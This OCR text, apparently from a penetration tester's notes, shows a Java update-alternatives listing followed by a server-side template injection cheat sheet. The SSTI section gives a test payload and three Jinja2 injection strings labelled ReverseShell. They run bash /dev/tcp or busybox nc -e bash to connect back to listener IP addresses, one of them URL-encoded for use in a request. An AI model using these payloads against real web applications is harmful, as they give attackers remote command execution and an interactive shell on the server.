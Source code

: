 There are 2 choices for the alternative java (providing /usr/bin/java).

  Selection    Path                                         Priority   Status
------------------------------------------------------------
* 0            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      auto mode
  1            /usr/lib/jvm/java-11-openjdk-amd64/bin/java   1111      manual mode
  2            /usr/lib/jvm/java-21-openjdk-amd64/bin/java   2111      manual mode



## SSTI
测试payload
{{7*7}}
ReverseShell
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('bash -c "bash -i >& /dev/tcp/192.168.1.129/4141 0>&1"').read() }}
{{config.__class__.__init__.__globals__['os'].popen('busybox nc 192.168.45.194 5000 -e bash &').read()}}

{%%20if%20request[%27application%27][%27__globals__%27][%27__builtins__%27][%27__import__%27](%27os%27)[%27popen%27](%27busybox%20nc%20192.168.1.204%2080%20-e%20bash%27)[%27read%27]()%20==%20%27chiv%27%20%}%20a%20{%%20endif%20%}